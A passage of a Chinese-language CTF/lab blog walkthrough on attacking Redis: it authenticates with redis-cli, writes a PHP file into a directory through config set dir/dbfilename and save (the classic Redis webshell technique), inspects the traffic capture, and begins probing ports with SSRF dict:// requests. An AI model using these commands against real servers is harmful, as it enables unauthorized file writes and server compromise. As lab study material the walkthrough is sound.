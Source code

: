 然后我们一样通过 redis_cli访问

```cobol
ip:6788> ping
(error) NOAUTH Authentication required.
 
发现需要密码了
 
然后我们需要指定密码
 
 .\redis-cli.exe -h ip -p 6788 -a 123123
```

就可以发现执行成功

然后我们只需要和上面一样写入shell 即可

```bash
flushall
 
config set dir /tmp
 
config set dbfilename shell.php
 
set x "<?php phpinfo();?>"
 
save
```

我们去看看是否写入



<img src="https://i-blog.csdnimg.cn/blog_migrate/126e5c1b5b2c1ff18c13adde0aaf3ae9.png" alt="" style="max-height:140px; box-sizing:content-box;" />


然后我们再看看流量包

```cobol
docker cp redis_test:/pass.pcap /mnt/c/Users/Administrator/Desktop
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/76daa139930d3e2f40f05e65587e78d1.png" alt="" style="max-height:181px; box-sizing:content-box;" />
我们能发现 在流量包上 已经通过了 认证 然后下面就是命令

### 做题

这里我们首先通过 dict 协议 加上bp去探测开放端口

```cobol
dict://127.0.0.1:8000
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/765d69dbab91b3c12f509efb2e27cff9.png" alt="" style="max-height:482px; box-sizing:content-box;" />
发现 6379端口存在 redis
